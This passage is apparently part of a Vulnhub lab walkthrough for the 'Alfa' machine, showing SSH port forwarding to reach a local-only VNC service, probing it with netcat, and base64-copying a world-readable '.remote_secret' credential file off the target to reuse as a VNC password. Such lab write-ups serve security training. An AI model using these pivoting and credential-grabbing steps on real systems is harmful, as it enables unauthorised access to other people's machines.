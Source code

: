 There is an internal service running on port 5901... and it is only running for 127.0.0.1. To make this service available outside the target we should setup local port forwarding.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ ssh -f -N -L 5901:localhost:5901 thomas@$ip -p 65111
thomas@10.0.2.40's password: 

```
The local port forwarding has been setup and now we can check the service.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ nc 127.0.0.1 5901                                                                                 
RFB 003.008

```
There is a response within the netcat session. I've no idea what this banner might be. So we have to use our Google Fu on `RFB 003.008` and find out what it might be.


```
https://www.google.com/search?q=RFB+003.008
```
It looks like it is a protocol for VNC. We might connect with it via our local port forward. 
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ xtightvncviewer 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
Authentication failure

```
Well that did not work with the password `milo666`. There was a remote_secret file present in the home directory of thomas. Let's transfer this file to our working directory.

```bash
thomas@Alfa:~$ pwd
/home/thomas
thomas@Alfa:~$ ls -la
total 40
drwxr-xr-x 4 thomas thomas 4096 dic 20  2020 .
drwxr-xr-x 3 root   root   4096 dic 16  2020 ..
-rw------- 1 thomas thomas  473 abr 11 08:28 .bash_history
-rw-r--r-- 1 thomas thomas  220 dic 16  2020 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 dic 16  2020 .bashrc
drwx------ 3 thomas thomas 4096 dic 16  2020 .gnupg
drwxr-xr-x 3 thomas thomas 4096 dic 16  2020 .local
-rw-r--r-- 1 thomas thomas  807 dic 16  2020 .profile
-rwxrwxrwx 1 root   root     16 dic 17  2020 .remote_secret
-rw-r--r-- 1 thomas thomas 1332 dic 20  2020 user.txt
thomas@Alfa:~$ cat .remote_secret | base64
0CLgAEMEHmPQIuAAQwQeYw==
thomas@Alfa:~$ exit
cerrar sesión
Connection to 10.0.2.40 closed.
```
Since I used based64 to encode the file we need to decode it with base64 on our machine.
```
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Alfa]
└─$ echo '0CLgAEMEHmPQIuAAQwQeYw==' | base64 -d > remote_secret       
```
The file is in our working directory, now we can use this file perhaps as input for a password or a kind of key just like with SSH.

